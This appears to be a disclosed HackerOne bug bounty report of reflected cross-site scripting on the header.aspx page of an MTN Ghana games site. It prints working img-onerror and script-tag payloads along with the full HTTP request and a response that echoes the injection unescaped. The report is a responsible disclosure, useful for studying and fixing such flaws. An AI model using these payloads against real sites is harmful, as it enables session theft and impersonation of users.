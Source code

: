 # Reflected XSS on gamesclub.mtn.com.g

## Report Details
- **Report ID**: 1069528
- **URL**: https://hackerone.com/reports/1069528
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-01T04:01:39.116Z
- **Disclosed**: 2021-05-24T07:38:22.387Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
hello dear

I have found Reflected XSS on gamesclub.mtn.com.g
parameters injectable /header.aspx

my payload "><img src=x onerror=prompt``>;<video>
HTTP Header input Referer was set to https://www.google.com/search?hl=en&q=testing'"()&%<acx><ScRiPt >gQmT(9082)</ScRiPt>

HTTP request
===========

```
GET /header.aspx HTTP/1.1
Host: gamesclub.mtn.com.gh
https://www.google.com/search?hl=en&q=testing'"()&%"><img src=x onerror=alert(document.domain)>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.1.535977033.1609258177; _gid=GA1.3.1739427388.1609466879; ASP.NET_SessionId=31wrle55qcm5sr45ix01xu45; _fbp=fb.2.1609472983351.929571150; __zlcmid=11wjhZBGzje4QJl; mp_41d22b7448ab7bf3fe46553a849e9750_mixpanel=%7B%22distinct_id%22%3A%20%22176bc10ae6a345-0b6ab9a3d75ed18-4c3f207e-1fa400-176bc10ae6b4c3%22%2C%22%24device_id%22%3A%20%22176bc10ae6a345-0b6ab9a3d75ed18-4c3f207e-1fa400-176bc10ae6b4c3%22%2C%22%24search_engine%22%3A%20%22google%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fwww.google.com%2F%22%2C%22%24initial_referring_domain%22%3A%20%22www.google.com%22%7D; _ga_N94D6VRGVG=GS1.1.1609472987.1.1.1609473387.0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
```
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Server: Microsoft-IIS/8.5
X-AspNet-Version: 2.0.50727
X-Powered-By: ASP.NET
Date: Fri, 01 Jan 2021 04:00:58 GMT
Connection: close
Content-Length: 1833

<b>Date: </b>1/1/2021 4:00:58 AM</br></br><b>Session Id: </b>31wrle55qcm5sr45ix01xu45</br></br><b>Cache-Control</b>--:max-age=0</br></br><b>Connection</b>--:close</br></br><b>Accept</b>--:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8</br></br><b>Accept-Encoding</b>--:gzip, deflate</br></br><b>Accept-Language</b>--:en-US,en;q=0.5</br></br><b>Cookie</b>--:_ga=GA1.1.535977033.1609258177; _gid=GA1.3.1739427388.1609466879; ASP.NET_SessionId=31wrle55qcm5sr45ix01xu45; _fbp=fb.2.1609472983351.929571150; __zlcmid=11wjhZBGzje4QJl; mp_41d22b7448ab7bf3fe46553a849e9750_mixpanel=%7B%22distinct_id%22%3A%20%22176bc10ae6a345-0b6ab9a3d75ed18-4c3f207e-1fa400-176bc10ae6b4c3%22%2C%22%24device_id%22%3A%20%22176bc10ae6a345-0b6ab9a3d75ed18-4c3f207e-1fa400-176bc10ae6b4c3%22%2C%22%24search_engine%22%3A%20%22google%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fwww.google.com%2F%22%2C%22%24initial_referring_domain%22%3A%20%22www.google.com%22%7D; _ga_N94D6VRGVG=GS1.1.1609472987.1.1.1609473387.0</br></br><b>Host</b>--:gamesclub.mtn.com.gh</br></br><b>User-Agent</b>--:Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0</br></br><b>https</b>--://www.google.com/search?hl=en&q=testing'"()&%"><img src=x onerror=alert(document.domain)></br></br><b>Upgrade-Insecure-Requests</b>--:1</br></br>

<!DOCTYPE html>

<html xmlns="http://www.w3.org/1999/xhtml">
<head><title>

</title></head>
<body>
    <form name="form1" method="post" action="header.aspx" id="form1">
<div>
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwULLTE2MTY2ODcyMjlkZPAMEC+PM7rDHrcWuoHAcMYZTDHa" />
</div>

<div>

	<input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR" value="D38F0298" />
</div>
    <div>
    
    </div>
    </form>
</body>
</html>

```
{F1140525}

## Impact

Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker.

## Attachments
- ferfr.PNG
